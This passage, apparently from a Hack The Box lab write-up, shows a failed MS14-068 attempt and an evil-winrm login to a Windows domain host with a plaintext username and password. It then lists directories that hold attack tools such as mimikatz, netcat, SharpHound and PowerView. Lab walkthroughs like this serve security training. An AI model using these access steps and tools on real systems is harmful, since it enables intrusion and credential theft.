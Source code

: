     :::text
    date && rdate -n htb.local
    Thu 24 Oct 2019 04:24:55 PM CEST
    Thu Oct 24 16:24:55 CEST 2019

The exploitation of MS14-068 does not work.

## Evil-winrm

As we so in the openport, the
[default port for winrm 5985](https://docs.microsoft.com/en-us/windows/win32/winrm/installation-and-configuration-for-windows-remote-management)
is open. We use [evil-winrm](https://github.com/Hackplayers/evil-winrm) in order
to connect to the system and get user's flag:

    :::text
    evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


        Directory: C:\Users\svc-alfresco\Documents


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/24/2019   6:57 AM          12510 20191024065705_BloodHound.zip
    -a----       10/24/2019   8:23 AM           3996 Add-ACE.ps1
    -a----       10/24/2019   8:23 AM           2584 Add-ToGroup.ps1
    -a----       10/24/2019   6:28 AM          64384 Invoke-ACLPwn.ps1
    -a----       10/24/2019   8:02 AM        2661697 Invoke-Mimikatz.ps1
    -a----       10/24/2019   6:33 AM        1006744 mimikatz.exe
    -a----       10/24/2019   6:25 AM         212992 mp1.exe
    -a----       10/24/2019   9:17 AM          43696 nc64.exe
    -a----       10/24/2019   6:47 AM          73802 pd.exe
    -a----       10/24/2019   7:24 AM           6017 powerPriv.ps1
    -a----       10/24/2019   9:26 AM         363295 powerview.ps1
    -a----       10/24/2019   7:12 AM           8978 Rk9SRVNU.bin
    -a----       10/24/2019   6:27 AM         779264 SharpHound.exe
    -a----       10/24/2019   6:44 AM         919546 SharpHound.ps1
    -a----       10/24/2019   8:36 AM        2222592 SharpSploit.dll
    -a----       10/24/2019   7:26 AM          73802 shell.exe


    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../
    di*Evil-WinRM* PS C:\Users\svc-alfresco> dir


        Directory: C:\Users\svc-alfresco


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        9/23/2019   2:16 PM                Desktop
    d-r---       10/24/2019   9:31 AM                Documents
    d-r---        7/16/2016   6:18 AM                Downloads
    d-r---        7/16/2016   6:18 AM                Favorites
    d-r---        7/16/2016   6:18 AM                Links
    d-r---        7/16/2016   6:18 AM                Music
    d-r---        7/16/2016   6:18 AM                Pictures
    d-----        7/16/2016   6:18 AM                Saved Games
    d-r---        7/16/2016   6:18 AM                Videos
